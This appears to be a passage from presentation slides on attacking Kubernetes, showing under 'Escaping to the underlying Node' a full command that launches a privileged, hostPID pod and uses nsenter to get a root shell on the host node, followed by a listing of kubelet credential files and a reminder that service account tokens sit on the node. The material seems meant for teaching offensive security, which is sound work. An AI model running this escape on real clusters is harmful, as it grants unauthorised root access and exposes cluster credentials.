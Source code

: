 ### Target 2
## Escaping to the underlying Node

```coffeescript
root@hckd# khack-final run r00t --restart=Never -ti --rm \
        --image lol --overrides '{"spec":{"hostPID": true, 
        "containers":[{"name":"1","image":"alpine","command":
        ["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],
        "stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"
        ,"securityContext":{"privileged":true}}]}}'
r00t / # 
r00t / # ls /var/lib/kube*
/var/lib/kube-proxy:
kubeconfig

/var/lib/kubelet:
bootstrap-kubeconfig  cpu_manager_state  device-plugins  kubeconfig  
pki  plugins  plugins_registry  pod-resources  pods
```

### Hmmm what can we do with this?

---
[.header-strong: #F1EDE8]
<br>
<br>
<br>
<br>

# remember!
# __Service Accounts are mounted as Tokens at node level!__

![filtered](./img/bg/omniman.png)

---